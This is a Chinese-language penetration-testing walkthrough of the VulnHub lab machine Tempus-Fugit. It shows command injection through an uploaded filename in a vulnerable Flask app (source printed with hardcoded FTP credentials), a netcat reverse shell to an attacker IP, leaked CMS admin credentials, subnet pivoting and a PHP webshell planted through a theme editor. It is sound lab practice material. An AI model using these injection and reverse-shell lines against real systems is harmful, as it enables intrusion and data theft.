

# vulnhub系列——Tempus-Fugit

# 信息收集

1. 主机发现

   ``` shell
   sudo arp-scan -l
   ```

   

2. 端口扫描，只开放了80端口

   ``` shell
   nmap -Pn -sC -sV -p- 192.168.50.5
   ```

   

3. 识别一下指纹

   ``` shell
   whatweb 192.168.51.105
   ```

   

4. 扫描目录，扫描出了大量目录和文件，但访问基本是都是404

   ``` shell
   dirsearch -u http://192.168.50.5 -e *
   ```

# 二、外网突破

1. 直接访问一下站点，发现首页导航栏有upload

   

2. 先看一下about页面，意思是上传脚本，然后放到内部ftp服务器保管，那就是还有个ftp的内网

   

3. 访问一下upload，可以直接上传文件

   

4. 传一个php马上去，提示只能上传txt和rtf文件

   

5. 先上传一个test.txt，内容写个hello test

   

6. 提示上传成功且输出了文件内容，看到这里联想到是不是可以直接执行命令，先fuzz一下文件名

   

7. 上传成功，并且直接输出了用户名，那就可以直接反弹shell了

   

8. 看一下当前路径下有哪些文件

   

9. 看到有一个.py文件，那这个网站可能就是用python写的，尝试直接cat查看源码居然不行，抓包一下，修改文件名为1.txt;cat main*，成功获取到源码

   

   ``` python
   import os
   import urllib.request
   from flask import Flask, flash, request, redirect, render_template
   from ftplib import FTP
   import subprocess
   
   UPLOAD_FOLDER = &#39;upload&#39;
   ALLOWED_EXTENSIONS = {&#39;txt&#39;, &#39;rtf&#39;}
   
   app = Flask(__name__)
   app.secret_key = &#34;mofosecret&#34;
   app.config[&#39;MAX_CONTENT_LENGTH&#39;] = 2 * 1024 * 1024
   
   @app.route(&#39;/&#39;, defaults={&#39;path&#39;: &#39;&#39;})
   @app.route(&#39;/&lt;path:path&gt;&#39;)
   def catch_all(path):
         cmd = &#39;fortune -o&#39;
         result = subprocess.check_output(cmd, shell=True)
         return &#34;&lt;h1&gt;400 - Sorry. I didn&#39;t find what you where looking for.&lt;/h1&gt; &lt;h2&gt;Maybe this will cheer you up:&lt;/h2&gt;&lt;h3&gt;&#34;+result.decode(&#34;utf-8&#34;)+&#34;&lt;/h3&gt;&#34;
   @app.errorhandler(500)
   def internal_error(error):
       return &#34;&lt;h1&gt;500?! - What are you trying to do here?!&lt;/h1&gt;&#34;
   
   @app.route(&#39;/&#39;)
   
   def home():
       return render_template(&#39;index.html&#39;)
   
   @app.route(&#39;/upload&#39;)
   
   def upload_form():
       try:
           return render_template(&#39;my-form.html&#39;)
       except Exception as e:
           return render_template(&#34;500.html&#34;, error = str(e))
   
   def allowed_file(filename):
              check = filename.rsplit(&#39;.&#39;, 1)[1].lower()
              check = check[:3] in ALLOWED_EXTENSIONS    
              return check
   
   @app.route(&#39;/upload&#39;, methods=[&#39;POST&#39;])
   def upload_file():
       if request.method == &#39;POST&#39;:
           if &#39;file&#39; not in request.files:
               flash(&#39;No file part&#39;)
               return redirect(request.url)
           file = request.files[&#39;file&#39;]
           if file.filename == &#39;&#39;:
               flash(&#39;No file selected for uploading&#39;)
               return redirect(request.url)
           if file.filename and allowed_file(file.filename):
               filename = file.filename
               
               file.save(os.path.join(UPLOAD_FOLDER, filename))
               cmd=&#34;cat &#34;+UPLOAD_FOLDER+&#34;/&#34;+filename
               result = subprocess.check_output(cmd, shell=True)
               flash(result.decode(&#34;utf-8&#34;))
               flash(&#39;File successfully uploaded&#39;)
               
               try:
                  ftp = FTP(&#39;ftp.mofo.pwn&#39;)
                  ftp.login(&#39;someuser&#39;, &#39;b232a4da4c104798be4613ab76d26efda1a04606&#39;)
                  with open(UPLOAD_FOLDER+&#34;/&#34;+filename, &#39;rb&#39;) as f:
                     ftp.storlines(&#39;STOR %s&#39; % filename, f)
                     ftp.quit()
               except:
                  flash(&#34;Cannot connect to FTP-server&#34;)
               return redirect(&#39;/upload&#39;)
   
           else:
               flash(&#39;Allowed file types are txt and rtf&#39;)
               return redirect(request.url)
   
   if __name__ == &#34;__main__&#34;:
       app.run()
   ```

10. 看了一下源码，main.py中有个ftp.login，疑似frp的用户名密码

    ``` shell
    someuserb232a4da4c104798be4613ab76d26efda1a04606
    ```

11. 尝试反弹shell，转换一下ip

    ``` shell
    1.txt;nc 3232248492 4444 -e sh
    ```

    

12. 成功反弹shell

    

# 四、内网渗透

## （一）内网信息收集

1. cd到/root目录下看一下

   

2. 提示还没有完成，获取交互式shell

   ``` python
   python -c 'import pty; pty.spawn("/bin/sh")'
   ```

3. ifconfig看一下

   

4. ip为172.19.0.10，貌似是个内网环境arp扫描一下

   ``` shell
   arp -a
   ```

   

5. 扫出一个dns和一个ftp两个内网主机，登录一下ftp

   

6. 登录ftp成功，ls查看一下当前目录的文件，发现有一个cmscreds.txt，cat查看内容

   

7. 新cms的管理员密码，意味着还有个内网要打

   ``` shell
   Admin-password for our new CMS
   hardEnough4u
   ```

8. 退出ftp，在web主机上添加nmap，扫描一下子网

   ``` shell
   apk add nmap
   nmap -sn 172.19.0.0/16
   ```

9. 扫出四个IP，172.19.0.12是ftp服务器，172.19.0.100是dns服务器

   ``` shell
   172.19.0.1
   172.19.0.12
   172.19.0.100
   172.19.0.10
   ```

10. 扫描一下端口，发现172.19.0.1、172.19.0.10这两个主机开放了80端口，但172.19.0.1运行了某种代理服务，开放了多个端口，172.19.0.10只有一个80端口，172.19.0.100是dns服务器，那么新cms可能是172.19.0.10了

    

    

    

    

11. 无法直接访问内网web服务，需要枚举域名，查看一下host文件，

    ``` shell
    cat /etc/resolv.conf
    ```

    

    

12. 安装dig，枚举域名，如下，新的cms应该是172.19.0.1，域名是ourcms.mofo.pwn，发现还有一个邮件服务器，可能会有用

    ``` shell
    apk add bind-tools
    dig axfr mofo.pwn
    ```

    

## （二）内网横向移动

1. 直接在kali在设置一下路由转发就行了， 192.168.50.172是kali的IP

   ``` shell
   sudo ip route add 172.19.0.0/24 via 192.168.50.172
   ```

2. 修改kali的host

   ``` shell
   sudo vim /etc/hosts
   ```

   

3. 成功访问到另一个cms

   

4. 由于之前已经获取到了新cms的管理员账号密码，这里直接访问后台

   

5. 成功进入后台

   

6. 发现后台的Theme页面可以修改主题，这个cms是php写的，直接修改主题在里面加入一句话木马

   

7. 成功获取webshell

   

8. 尝试提权无果，尝试寻找其他线索，arp -a发现另一台主机172.19.0.11，这就是前面域名枚举时发现的邮件服务器

   

9. 获取到了账号密码，但是没有及时连接，后面就连不上了

   

